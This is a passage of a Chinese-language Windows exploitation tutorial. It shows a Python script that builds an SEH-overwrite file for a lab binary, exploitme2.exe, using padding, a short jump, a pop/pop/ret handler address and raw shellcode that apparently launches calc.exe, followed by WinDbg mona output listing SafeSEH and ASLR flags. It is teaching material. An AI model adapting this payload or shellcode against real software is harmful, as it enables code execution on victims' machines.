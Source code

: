 ![](http://drops.javaweb.org/uploads/images/41394e61cd4fb52764f526bd2a3dbe2e489b7a27.jpg)

用来创建文件name.dat的Python代码如下：

```
with open('c:\\name.dat', 'wb') as f:
    jmp = '\xeb\x06\x90\x90'
    handler = '\x5d\xd7\xdf\x75'
    shellcode = ("\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02"+
            "\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa"+
            "\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8"+
            "\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02"+
            "\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45"+
            "\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6"+
            "\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c"+
            "\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0"+
            "\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53"+
            "\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45"+
            "\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2"+
            "\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b"+
            "\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff"+
            "\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0"+
            "\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75"+
            "\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d"+
            "\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c"+
            "\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24"+
            "\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04"+
            "\x30\x03\xc6\xeb\xdd")
    data = 'a'*84 + jmp + handler + shellcode
    f.write(data + 'c' * (10000 - len(data))) 

```

如果你使用WinDbg调试exploitme2.exe，你将会发现出错了。我们的handler(`pop/pop/ret`)并没有被调用,为什么？

我们来看一看已加载的模块：

```
0:000> !py mona modules
Hold on...
[+] Command used:
!py mona.py modules    

---------- Mona command started on 2015-03-19 00:31:14 (v2.0, rev 554) ----------
[+] Processing arguments and criteria
    - Pointer access level : X
[+] Generating module info table, hang on...
    - Processing modules
    - Done. Let's rock 'n roll.
----------------------------------------------------------------------------------------------------------------------------------
 Module info :
----------------------------------------------------------------------------------------------------------------------------------
 Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
----------------------------------------------------------------------------------------------------------------------------------
 0x774b0000 | 0x774ba000 | 0x0000a000 | False  | True    | True  |  True    | True   | 6.1.7601.18768 [LPK.dll] (C:\Windows\syswow64\LPK.dll)
 0x00190000 | 0x00196000 | 0x00006000 | False  | True    | True  |  False   | False  | -1.0- [exploitme2.exe] (exploitme2.exe)
 0x752d0000 | 0x7532a000 | 0x0005a000 | False  | True    | True  |  True    | True   | 8.0.0.4344 [guard32.dll] (C:\Windows\SysWOW64\guard32.dll)
 0x764c0000 | 0x7658c000 | 0x000cc000 | False  | True    | True  |  True    | True   | 6.1.7601.18731 [MSCTF.dll] (C:\Windows\syswow64\MSCTF.dll)
```
